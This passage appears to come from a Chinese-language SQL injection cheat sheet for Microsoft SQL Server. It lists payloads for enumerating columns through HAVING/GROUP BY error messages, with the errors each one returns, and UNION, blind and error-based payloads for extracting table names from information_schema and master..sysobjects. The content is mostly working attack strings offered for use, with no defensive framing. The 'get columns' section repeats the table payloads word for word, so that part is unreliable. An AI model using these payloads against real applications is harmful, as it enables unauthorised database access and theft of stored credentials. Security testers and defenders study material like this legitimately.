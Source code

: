 	Given the query: SELECT username, password, permission FROM Users WHERE id = '1';
	
	1' HAVING 1=1--	Column 'Users.username' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
	1' GROUP BY username HAVING 1=1--	Column 'Users.password' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
	1' GROUP BY username, password HAVING 1=1--	Column 'Users.permission' is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause.
	1' GROUP BY username, password, permission HAVING 1=1--	No Error

__注意__

一旦包含所有的列，将不会返回任何错误。

##### 获取表

可以从`information_schema.tables`和` master..sysobjects`两个数据库中获取表。

__Union__

	UNION SELECT name FROM master..sysobjects WHERE xtype='U'

__Blind__

	
	AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'

__Error__

	AND 1 = (SELECT TOP 1 table_name FROM information_schema.tables)
	AND 1 = (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN(SELECT TOP 1 table_name FROM information_schema.tables))

__注意__

	Xtype ='U'用于用户定义的表格。 您可以使用'V'查看视图。

##### 获取列

我们可以从`information_schema.columns`和`masters..syscolumns`两个不同的数据库中注入得到列。

__Union__

	UNION SELECT name FROM master..sysobjects WHERE xtype='U'

__Blind__

	AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'

__Error__


	AND 1 = (SELECT TOP 1 table_name FROM information_schema.tables)
	AND 1 = (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN(SELECT TOP 1 table_name FROM information_schema.tables))

__注意__

`Xtype ='U'`用于用户定义的表格。 您可以使用'V'查看视图。

##### 一次获取多张表和列
